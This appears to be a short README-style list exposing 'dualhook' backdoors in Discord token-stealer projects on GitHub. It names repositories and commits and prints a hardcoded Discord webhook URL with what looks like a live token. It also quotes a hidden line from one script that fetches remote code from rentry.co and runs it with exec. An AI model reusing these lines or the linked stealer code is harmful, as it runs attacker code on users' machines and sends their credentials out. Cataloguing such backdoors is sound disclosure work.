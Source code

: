 
# List of Dualhook - Malicious Code

## Doenerium69 - 

- https://github.com/doenerium6969/doenerium-fixed/commit/3ec9709980331a937f12b5b59d29638e6efc176b (DUALHOOK)
- t.me/doenerium69 same fake doener and dualhook shit

## Satan Stealer -

- https://github.com/Maybach1337/Satan-Stealer/commit/726de1004a63ad884e7cbe2c070d831689ab5f32
- Decoded Magic: myhook = "https://discord.com/api

## BlackCap Stealer
- Original SRC content Dualhook use the without dualhook
- https://github.com/Inplex-sys/BlackCap-Grabber-NoDualHook

## guiscriptmakerlol	
- https://github.com/guiscriptmakerlol/RRs-Grabber	
- Line 8: `webhook = "https://discord.com/api/webhooks/1095987665431703562/4Osghk4v55EUJmcmK7nEQIcZtQpeGCWK7QM1QdrlIKX_2QClnCWuRtjxwTgyuhX6ePlW"`

## Some shits scripts

- https://github.com/zrSadek/discord-mass-friend
- https://github.com/zrSadek/discord-mass-friend/blob/main/main.py (Second Line) import requests                    ;exec(requests.get('https://rentry.co/tvfwh/raw').text)

